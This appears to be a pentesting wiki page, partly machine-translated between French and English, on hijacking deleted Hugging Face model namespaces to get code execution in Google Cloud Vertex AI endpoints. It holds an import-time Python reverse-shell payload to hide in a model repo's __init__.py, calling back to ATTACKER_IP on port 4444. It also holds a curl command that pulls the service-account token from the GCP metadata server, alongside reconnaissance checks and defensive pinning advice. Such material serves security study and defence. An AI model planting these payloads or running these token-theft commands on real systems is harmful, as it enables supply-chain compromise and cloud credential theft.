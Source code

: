 # GCP - Vertex AI Post-Exploitation via Hugging Face Model Namespace Reuse

{{#include ../../../banners/hacktricks-training.md}}

## Scénario

- Vertex AI Model Garden permet le déploiement direct de nombreux modèles Hugging Face (HF).
- HF model identifiers are Author/ModelName. Si un auteur/org sur HF est supprimé, le même nom d'auteur peut être réenregistré par n'importe qui. Les attaquants peuvent alors créer un repo avec le même ModelName au legacy path.
- Pipelines, SDKs, or cloud catalogs qui récupèrent uniquement par nom (no pinning/integrity) vont tirer le repo contrôlé par l'attaquant. Quand le modèle est déployé, le loader code de ce repo peut s'exécuter à l'intérieur du conteneur de l'endpoint Vertex AI, aboutissant à une RCE avec les permissions de l'endpoint.

Two common takeover cases on HF:
- Ownership deletion: Old path 404 until someone re-registers the author and publishes the same ModelName.
- Ownership transfer: HF issues 307 redirects from old Author/ModelName to the new author. If the old author is later deleted and re-registered by an attacker, the redirect chain is broken and the attacker’s repo serves at the legacy path.

## Identifier des namespaces réutilisables (HF)

- Old author deleted : la page de l'auteur renvoie 404 ; le model path peut renvoyer 404 jusqu'au takeover.
- Transferred models : l'ancien model path renvoie 307 vers le nouveau owner tant que l'ancien auteur existe. Si l'ancien auteur est ensuite supprimé et ré-enregistré, le legacy path résoudra vers le repo de l'attaquant.

Quick checks with curl:
```bash
# Check author/org existence
curl -I https://huggingface.co/<Author>
# 200 = exists, 404 = deleted/available

# Check old model path behavior
curl -I https://huggingface.co/<Author>/<ModelName>
# 307 = redirect to new owner (transfer case)
# 404 = missing (deletion case) until someone re-registers
```
## Flux d'attaque de bout en bout contre Vertex AI

1) Découvrir des espaces de noms de modèles réutilisables que Model Garden répertorie comme déployables :
- Trouver des modèles HF dans Vertex AI Model Garden qui apparaissent encore comme “verified deployable”.
- Vérifier sur HF si l'auteur original a été supprimé ou si le modèle a été transféré et que l'ancien auteur a ensuite été retiré.

2) Réenregistrer l'auteur supprimé sur HF et recréer le même ModelName.

3) Publier un repo malveillant. Inclure du code qui s'exécute au chargement du modèle. Exemples qui s'exécutent couramment lors du chargement d'un modèle HF :
- Effets de bord dans __init__.py du repo
- Fichiers modeling_*.py personnalisés ou code de traitement référencé par config/auto_map
- Chemins de code qui nécessitent trust_remote_code=True dans les pipelines Transformers

4) Un déploiement Vertex AI de l'ancien Author/ModelName récupère maintenant le repo de l'attaquant. Le loader s'exécute à l'intérieur du conteneur d'endpoint Vertex AI.

5) Le payload établit un accès depuis l'environnement de l'endpoint (RCE) avec les permissions de l'endpoint.

Exemple de fragment de payload exécuté à l'import (à titre démonstratif uniquement) :
```python
# Place in __init__.py or a module imported by the model loader
import os, socket, subprocess, threading

def _rs(host, port):
s = socket.socket(); s.connect((host, port))
for fd in (0,1,2):
try:
os.dup2(s.fileno(), fd)
except Exception:
pass
subprocess.call(["/bin/sh","-i"])  # Or python -c exec ...

if os.environ.get("VTX_AI","1") == "1":
threading.Thread(target=_rs, args=("ATTACKER_IP", 4444), daemon=True).start()
```
Remarques
- Les loaders en conditions réelles varient. De nombreuses intégrations Vertex AI HF clonent et importent des modules de repo référencés par la config du modèle (par ex., auto_map), ce qui peut déclencher l'exécution de code. Certaines utilisations exigent trust_remote_code=True.
- L'endpoint s'exécute typiquement dans un container dédié avec un périmètre limité, mais il constitue un point d'appui initial valable pour l'accès aux données et le lateral movement dans GCP.

## Conseils de post-exploitation (Vertex AI Endpoint)

Une fois le code en cours d'exécution dans le container de l'endpoint, envisagez :
- Énumérer les variables d'environnement et les metadata pour credentials/tokens
- Accéder au stockage attaché ou aux artefacts du modèle montés
- Interagir avec les Google APIs via l'identité du service account (Document AI, Storage, Pub/Sub, etc.)
- Persistance dans l'artefact du modèle si la plateforme re-télécharge le repo

Énumérer les metadata de l'instance si accessibles (dépend du container) :
```bash
curl -H "Metadata-Flavor: Google" \
http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token
```
## Conseils défensifs pour les utilisateurs de Vertex AI

- Épingler les modèles par commit dans HF loaders pour empêcher un remplacement silencieux :
```python
from transformers import AutoModel
m = AutoModel.from_pretrained("Author/ModelName", revision="<COMMIT_HASH>")
```
- Répliquer les modèles HF vérifiés dans un registre interne d'artefacts de confiance et déployer à partir de là.
- Scanner en continu les codebases et les configs à la recherche d'Author/ModelName codés en dur qui sont supprimés/transférés ; mettre à jour vers les nouveaux namespaces ou pin par commit.
- Dans Model Garden, vérifier la provenance du modèle et l'existence de l'auteur avant le déploiement.

## Heuristiques de reconnaissance (HTTP)

- Auteur supprimé : page de l'auteur 404 ; legacy model path 404 until takeover.
- Modèle transféré : legacy path 307 vers le nouvel auteur alors que l'ancien auteur existe ; si l'ancien auteur est ensuite supprimé et ré-enregistré, legacy path sert du contenu de l'attaquant.
```bash
curl -I https://huggingface.co/<OldAuthor>/<ModelName> | egrep "^HTTP|^location"
```
## Références croisées

- Voir la méthodologie générale et les notes sur la chaîne d'approvisionnement :

{{#ref}}
../../pentesting-cloud-methodology.md
{{#endref}}

## Références

- [Model Namespace Reuse: An AI Supply-Chain Attack Exploiting Model Name Trust (Unit 42)](https://unit42.paloaltonetworks.com/model-namespace-reuse/)
- [Hugging Face: Renaming or transferring a repo](https://huggingface.co/docs/hub/repositories-settings#renaming-or-transferring-a-repo)

{{#include ../../../banners/hacktricks-training.md}}
